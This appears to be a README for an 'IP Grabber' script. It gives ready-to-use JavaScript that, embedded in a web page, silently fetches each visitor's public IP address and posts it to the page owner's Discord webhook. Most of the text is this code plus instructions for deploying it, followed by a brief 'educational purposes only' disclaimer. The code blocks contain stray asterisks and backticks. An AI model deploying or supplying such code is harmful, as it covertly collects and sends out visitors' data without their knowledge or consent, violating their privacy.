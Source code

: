 <h1 align="center">IP Grabber</h1>

<p align="center">
  <strong>A simple script to grab the user's IP address and send it to a Discord webhook.</strong>
</p>


## Description

This script fetches the user's IP address using `https://api.ipify.org` and sends it to a specified Discord webhook.

## How it Works

The script leverages JavaScript's `fetch` API to dispatch a GET request to `https://api.ipify.org`, acquiring the user's IP address. Subsequently, it dispatches a POST request to a Discord webhook URL, carrying the acquired IP address as the payload. As a result, you'll receive a notification from the bot in your Discord server each time someone visits your website, containing the visitor's Public IP address. Notably, this script represents the most concise form possible.

## Usage

Just make sure to replace **`YOUR_DISCORD_WEBHOOK`** with your actual Discord webhook URL.

If you want to implement it in the html file directly use:**
```html
<script>
  fetch('https://api.ipify.org')
    .then(response => response.text())
    .then(ip => fetch('YOUR_DISCORD_WEBHOOK', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ content: ip })
    }));
</script>`
```
or use a seperate JavaScript file:

```js
**fetch('https://api.ipify.org')
  .then(response => response.text())
  .then(ip => {
    fetch('YOUR_DISCORD_WEBHOOK', {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ content: ip })
    });
  })**
```

## Disclaimer

This script is intended for educational purposes only. Any use of this script to collect or share users' IP addresses without their consent may violate privacy laws and ethical principles. Ensure compliance with all relevant regulations and obtain proper authorization before deploying such functionality. Use at your own risk.
